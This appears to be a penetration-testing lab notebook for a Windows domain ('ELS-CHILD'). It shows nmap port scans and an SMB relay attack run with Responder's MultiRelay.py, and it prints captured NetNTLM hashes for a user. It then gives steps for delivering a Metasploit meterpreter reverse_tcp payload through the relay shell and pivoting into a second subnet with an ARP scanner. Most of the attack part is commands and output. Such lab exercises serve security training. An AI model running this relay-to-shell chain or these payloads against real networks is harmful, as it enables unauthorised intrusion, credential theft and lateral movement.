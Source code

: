 ```
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49154/tcp open  unknown
MAC Address: 00:50:56:A0:81:FA (VMware)

Nmap scan report For 172.16.23.103
Host is up (0.33s latency).
Not shown: 45 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49154/tcp open  unknown
MAC Address: 00:50:56:A0:56:16 (VMware)
```

```
(john㉿kali)-[/usr/share/responder/tools]                                                                      
└─$ sudo python3 MultiRelay.py -t 172.16.23.100 -u ALL

dmanuel::ELS-CHILD:5E91834E3DEEA60200000000000000000000000000000000:B119F42F56D3FD8859B5C2996EC5E263B119A2AEB996497E:d14f4f5c58eb5e32
```

```
┌──(john㉿kali)-[/usr/share/responder/logs]
└─$ cat SMB-Relay-SMB-172.16.23.101.txt
dmanuel::ELS-CHILD:B1215FBE5E8DB22500000000000000000000000000000000:31A86CB9B587ED72FF3FEC26F15FC3AE4690217B6FC5EEB5:093f6c50ac36ae79
```


- use exploit/multi/script/web_delivery

	set options
	set payload windows/x64/meterpreter/reverse_tcp
	copy the payload
	paste in the MultiRelay shell
	we should gain a meterpreter shell

- another network found:
	ipconfig
	10.100.40.100
	background

- use post/windows/gather/arp_scanner
	set session 1
	set rhost 10.100.40.0/24

```
	10.100.40.1
	10.100.40.100
	10.100.40.101
	10.100.40.103
	10.100.40.107
	10.100.40.255
```
